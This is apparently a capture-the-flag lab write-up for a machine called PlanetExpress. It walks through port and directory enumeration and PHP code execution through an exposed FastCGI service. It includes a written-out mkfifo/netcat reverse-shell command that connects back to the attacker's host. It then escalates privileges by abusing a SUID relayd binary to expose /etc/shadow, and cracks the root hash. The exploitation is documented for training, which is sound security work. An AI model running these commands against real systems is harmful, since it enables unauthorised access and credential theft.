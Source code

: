 # PlanetExpress

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 -Pn 192.168.183.205
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-09 22:27 +08
Nmap scan report for 192.168.183.205
Host is up (0.17s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
9000/tcp open  cslistener

Nmap done: 1 IP address (1 host up) scanned in 35.83 seconds
```

Did a detailed scan to enumerate port 80 and 9000 further:

```
$ sudo nmap -p 80,9000 -sC -sV -O --min-rate 4000 -Pn 192.168.183.205
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-09 22:31 +08
80/tcp   open  http        Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-generator: Pico CMS
|_http-title: PlanetExpress - Coming Soon !
9000/tcp open  cslistener?
```

Port 8000 was running Pico CMS, which does have some exploits.&#x20;

### Web Enum --> PHPInfo

Port 80 had a countdown:

<figure><img src="../../../.gitbook/assets/image (1) (16).png" alt=""><figcaption></figcaption></figure>

There isn't much on this page, so we can do a `gobuster` directory scan with the PHP extension since PicoCMS was being used:

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://192.168.183.205/ -x php -t 100
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.183.205/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2023/07/09 22:35:49 Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 5176]
/content              (Status: 301) [Size: 320] [--> http://192.168.183.205/content/]
/themes               (Status: 301) [Size: 319] [--> http://192.168.183.205/themes/]
/assets               (Status: 301) [Size: 319] [--> http://192.168.183.205/assets/]
/plugins              (Status: 301) [Size: 320] [--> http://192.168.183.205/plugins/]
/vendor               (Status: 301) [Size: 319] [--> http://192.168.183.205/vendor/]
/config               (Status: 301) [Size: 319] [--> http://192.168.183.205/config/]
```

Using the PicoCMS Github repository, we can view more about these directories.&#x20;

{% embed url="https://github.com/picocms/Pico/tree/master" %}

Viewing the `config.yml` file shows that this is indeed running PicoCMS:

```
$ curl http://192.168.183.205/config/config.yml
##
# Basic
#
site_title: PlanetExpress
base_url: ~

rewrite_url: ~
debug: true
timezone: ~
locale: ~

##
# Theme
<TRUNCATED>
## 
# Self developed plugin for PlanetExpress
#
#PicoTest:
#  enabled: true
```

There's also a custom plugin developed for this website, and we can visit that at `plugins/PicoTest.php` based on the Github repo. This would show us the PHPInfo of the site:

<figure><img src="../../../.gitbook/assets/image (4) (5).png" alt=""><figcaption></figcaption></figure>

Here, we can find that `/var/www/html/planetexpress` is the document root. Also, we can find a lot of disabled functions:

<figure><img src="../../../.gitbook/assets/image (2) (13).png" alt=""><figcaption></figcaption></figure>

### FastCGI --> RCE

There wasn't much else on the webpage for us to test, however there was still port 9000. Googling it revealed that it was running FastCGI:

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/9000-pentesting-fastcgi" %}

There are RCE exploits for this service [here](https://gist.github.com/phith0n/9615e2420f31048f7e30f3937356cf75). The script given allows us to inject PHP code into the service to be run. However, there are a lot of functions that are disabled based on `PicoTest.php`. I checked the functions against all functions that are able to execute system commands via PHP, and `passthru` was not disabled.

Using `passthru` and the document root directory allows us to get RCE:

<figure><img src="../../../.gitbook/assets/image (3) (12).png" alt=""><figcaption></figcaption></figure>

We can then get a reverse shell via the `mkfifo` one-liner.&#x20;

{% code overflow="wrap" %}
```
$ python2 exploit.py -c '<?php passthru("bash -c \"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 | nc 192.168.45.218 80 > /tmp/f\""); ?>' 192.168.183.205 /var/www/html/planetexpress/plugins/PicoTest.php
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (4) (9).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Relayd SUID --> Shadw Hash

I searched for SUID binaries and found one that stood out:

```
$ find / -perm -u=s -type f 2>/dev/null
<TRUNCATED>
/usr/sbin/relayd
<TRUNCATED>
```

We can check the help menu for this :

```
www-data@planetexpress:/home/astro$ /usr/sbin/relayd --help
Usage: relayd [options] [actions]
Actions:
  default action      start daemon
  -h                  show this help message
  -v                  show version info
  -k                  kill running daemon
  -s                  get running status
  -U                  hup (reload configs)
  -a [service]        add service for relay
  -r [service]        remove service for relay
  -i                  get real client ip
  -b [up|down]        broadcast the DS boot state
  -R                  reopen the log file
Options:
  -C [file]           read config from file
  -d                  enable debug mode. will not run in background
  -P [file]           set pid file for daemon
  -g [ip]             remote source ip
  -n [port]           remote source port
```

The option that stood out the most to me was the `-C` flag, because it allows us to read from files. I attempted to read the `/etc/shadow` file:

```
www-data@planetexpress:/tmp$ /usr/sbin/relayd -C /etc/shadow
[ERR] 2023-07-09 10:53:48 config.cpp:1539 write
[ERR] 2023-07-09 10:53:48 config.cpp:1213 open failed [/usr/etc/relayd/misc.conf.tmp.12217]
[ERR] 2023-07-09 10:53:48 config.cpp:1189 bad json format [/etc/shadow]
[ERR] 2023-07-09 10:53:48 invalid config file

www-data@planetexpress:/tmp$ ls -la /etc/shadow
-rw-r--r-- 1 root shadow 940 Jan 10  2022 /etc/shadow
```

This made the file readable by all. We can then grab the `root` hash:

{% code overflow="wrap" %}
```
www-data@planetexpress:/tmp$ cat /etc/shadow
root:$6$vkAzDkveIBc6PmO1$y8QyGSMqJEUxsDfdsX3nL5GsW7p/1mn5pmfz66RBn.jd7gONn0vC3xf8ga33/Fq57xMuqMquhB9MoTRpTTHVO1:19003:0:99999:7:::
```
{% endcode %}

We just need to put this hash and the entry for `root` in `/etc/passwd` into another file, then run `unshadow` to convert it to a crackable hash.

{% code overflow="wrap" %}
```
$ cat hash  
root:$6$vkAzDkveIBc6PmO1$y8QyGSMqJEUxsDfdsX3nL5GsW7p/1mn5pmfz66RBn.jd7gONn0vC3xf8ga33/Fq57xMuqMquhB9MoTRpTTHVO1:19003:0:99999:7:::
$ cat passwd       
root:x:0:0:root:/root:/bin/bash
$ unshadow passwd hash
root:$6$vkAzDkveIBc6PmO1$y8QyGSMqJEUxsDfdsX3nL5GsW7p/1mn5pmfz66RBn.jd7gONn0vC3xf8ga33/Fq57xMuqMquhB9MoTRpTTHVO1:0:0:root:/root:/bin/bash
```
{% endcode %}

Then, we can crack it in `john` (or in my case, just show because I cracked it before):

```
$ john --show root_hash                                     
root:neverwant2saygoodbye:0:0:root:/root:/bin/bash

1 password hash cracked, 0 left
```

We can then `ssh` in as `root`:

<figure><img src="../../../.gitbook/assets/image (5) (4) (3).png" alt=""><figcaption></figcaption></figure>

Rooted!
